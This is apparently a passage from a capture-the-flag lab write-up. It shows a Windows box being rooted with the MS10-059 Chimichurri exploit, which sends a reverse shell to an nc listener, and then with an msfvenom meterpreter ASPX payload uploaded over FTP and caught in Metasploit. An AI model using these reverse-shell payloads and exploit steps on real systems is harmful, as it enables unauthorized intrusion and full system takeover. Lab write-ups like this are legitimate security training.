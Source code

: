 So I set up a reverse shell listener, and ran the exploit again. Interestingly, it did not like a high port of 9002. Will have to investigate this, but seems like Windows always complains about my 9000 ports.

```none
C:\inetpub\wwwroot>MS10-059.exe 10.10.14.10 4444
MS10-059.exe 10.10.14.10 4444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

```none
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49165
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\wwwroot>whoami
whoami
nt authority\system
```

## Metasploit Approach

After exploiting the box without Metasploit, thought it would be interesting to try a different approach. First, create a payload using `msfvenom` to upload to the FTP server.

```none
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 EXITFUNC=thread -f aspx -a x86 --platform windows -o rev.aspx
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2736 bytes
Saved as: rev.aspx
```

Upload the `rev.aspx` to the FTP server. Then, set up a reverse shell listener in `msfconsole`.

```none
msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.5:49168) at 2021-07-25 13:46:05 +1200

meterpreter >
```
